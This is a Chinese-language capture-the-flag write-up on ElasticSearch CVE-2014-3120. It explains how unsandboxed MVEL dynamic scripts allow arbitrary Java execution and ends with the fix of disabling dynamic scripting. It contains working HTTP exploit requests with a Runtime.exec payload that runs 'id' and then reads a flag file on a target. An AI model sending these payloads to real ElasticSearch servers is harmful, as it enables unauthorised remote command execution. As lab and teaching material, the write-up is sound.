 # ElasticSearch 命令执行漏洞（CVE-2014-3120）

![](imgs/timg.jpg)

## 1.&emsp;漏洞描述

* 漏洞描述：这个漏洞的主要原因是ElasticSearch支持传入动态脚本（MVEL）来执行一些复杂的操作，而MVEL可以执行java代码，所以我们可以直接执行任意代码。
* 漏洞编号：CVE-2014-3120
* 漏洞等级：高危
* 影响版本：ElasticSearch < 1.2

## 2.   漏洞简介

这个漏洞实际上非常简单，ElasticSearch有脚本执行([scripting](http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/modules-scripting.html))的功能，可以很方便地对查询出来的数据再加工处理。

ElasticSearch用的脚本引擎是[MVEL](https://github.com/mvel/mvel)，这个引擎没有做任何的防护，或者沙盒包装，所以直接可以执行任意代码。

而在ElasticSearch里，默认配置是打开动态脚本功能的，因此用户可以直接通过http请求，执行任意代码。

## 3.&emsp;漏洞分析

老版本ElasticSearch支持传入动态脚本（MVEL）来执行一些复杂的操作，而MVEL可执行Java代码，而且没有沙盒，所以我们可以直接执行任意代码。

MVEL执行命令的代码如下：

```java
import java.io.*;
new java.util.Scanner(Runtime.getRuntime().exec("id").getInputStream()).useDelimiter("\\A").next();
```

将Java代码放入json中：

```json
{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }
    }
  }
```

首先，该漏洞需要es中至少存在一条数据，所以我们需要先创建一条数据：

```http
POST /website/blog/ HTTP/1.1
Host: 218.2.197.232:21286
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Length: 364

{
  "name": "xiaohuihui"
}
```

然后，执行任意代码：

```http
POST /_search?pretty HTTP/1.1
Host: 218.2.197.232:21286
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Length: 364

{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }
    }
  }

```

![](imgs/1.png)

## 4.&emsp;题解

构造POC读出题目中的flag：

```http
POST /_search?pretty HTTP/1.1
Host: 218.2.197.232:21286
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Length: 364

{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"cat /tmp/flag.txt\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }
    }
  }

```

利用burpsuite转发数据包，得到flag：

![](imgs/2.png)

## 5.&emsp;修复方案

关掉执行脚本功能，在配置文件elasticsearch.yml里为每一个结点都加上：

```xml
script.disable_dynamic: true
```

官方会在1.2版本默认关闭动态脚本。

